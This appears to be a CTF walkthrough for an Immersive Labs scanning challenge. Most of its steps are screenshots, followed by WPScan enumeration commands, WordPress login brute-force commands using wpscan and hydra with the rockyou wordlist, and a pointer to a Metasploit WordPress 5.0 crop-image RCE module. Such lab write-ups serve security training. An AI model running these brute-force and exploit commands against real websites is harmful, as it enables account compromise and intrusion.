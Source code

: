 ```yaml
---
date: 2025-04-24
categories: [CTF, ImmersiveLabs]
title: "IML - Scanning: Demonstrate Your Skills"
tags: ['hydra', 'privilege escalation', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Scanning Demonstrate Your Skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Scanning: Demonstrate Your Skills

The Ident Protocol is used over the Internet to associate a TCP connection with a specific user. Originally designed to aid in network management and security, it operates by allowing a server to query a client on port 113 to request information about the user of a particular TCP connection

![image1](../resources/2de1db59dbc6472f8af9f6f3cde5f59c.png)


![image2](../resources/eb191f5debd54a5db7cf0286d08a120e.png)

Target 2


![image3](../resources/5d4c5931a68b4f7d8a91d7ccf3d5696a.png)


![image4](../resources/672f8c3f4808473f972ee83b83c13bc4.png)


![image5](../resources/a5832b28ee664540b32437a943460d33.png)


![image6](../resources/f5c320e8aa7c49d79c045e944fb7e237.png)

![image7](../resources/c05da0e0c82749d5b1698bdef6ef7eba.png)


![image8](../resources/1d48218e63674b3b84ec2f403d558d7a.png)


![image9](../resources/69c33c6a221d4c348cb41d600e7faa0e.png)


![image10](../resources/e90800abb2994c9e9af2e5235781c3a4.png)


```bash
#Run a Basic WPScan
wpscan --url http://yourwebsite.com

#Scan for Themes and Plugins
wpscan --url http://yourwebsite.com --enumerate at
wpscan --url http://yourwebsite.com --enumerate ap

#Enumerate WordPress Users
wpscan --url http://yourwebsite.com --enumerate u

#Bruteforce a WordPress Login Password
wpscan --url http://yoursite.com --passwords path-to-wordlist --usernames <list of usernames or just one>

#Bruteforce a WordPress Login Password - Hydra
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP_ADDRESS> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

**<u>Wordpress 5.0 exploit</u>**

**Need a username and password to use**

msfconsole > multi/http/wp_crop_rce
Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit

